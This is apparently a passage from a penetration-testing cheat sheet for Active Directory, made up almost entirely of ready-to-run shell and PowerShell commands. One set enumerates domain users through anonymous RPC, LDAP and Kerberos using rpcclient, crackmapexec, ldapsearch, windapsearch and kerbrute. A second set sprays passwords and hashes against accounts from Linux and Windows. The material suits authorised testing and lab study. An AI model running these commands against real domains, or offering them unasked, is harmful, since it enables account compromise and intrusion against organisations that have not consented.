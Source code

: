 ```shell-session
rpcclient -U "" -N IP_ADDR
rpcclient $> enumdomusers
```

```shell-session
crackmapexec smb IP_ADDR --users
```

**LDAP Anonymous Bind**
```shell-session
ldapsearch -h IP_ADDR -x -b "DC=DOMAIN,DC=COM" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
```

```shell-session
./windapsearch.py --dc-ip IP_ADDR -u "" -U
```

**Kerberos Pre-Authentication**
```shell-session
kerbrute userenum -d domain.com --dc IP_ADDR users.list
```

**With Credentials**
```shell-session
sudo crackmapexec smb IP_ADDR -u USERNAME -p PASSWORD --users
```

---

## Password Spraying
**From Linux**
```shell-session
for u in $(cat users.list);do rpcclient -U "$u%PASSWORD" -c "getusername;quit" IP_ADDR | grep Authority; done
```

```shell-session
kerbrute passwordspray -d DOMAIN.COM --dc IP_ADDR users.list PASSWORD 
```

```shell-session
sudo crackmapexec smb IP_ADDR -u users.list -p PASSWORD | grep +
```

```shell-session
sudo crackmapexec smb IP_ADDR -u USERNAME -p PASSWORD
```
```
sudo crackmapexec smb --local-auth IP_ADDR/23 -u USERNAME -H PASSWORD_HASH | grep +
```

**From Windows**
```powershell-session
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password PASSWORD -OutFile spray_success -ErrorAction SilentlyContinue
```

---
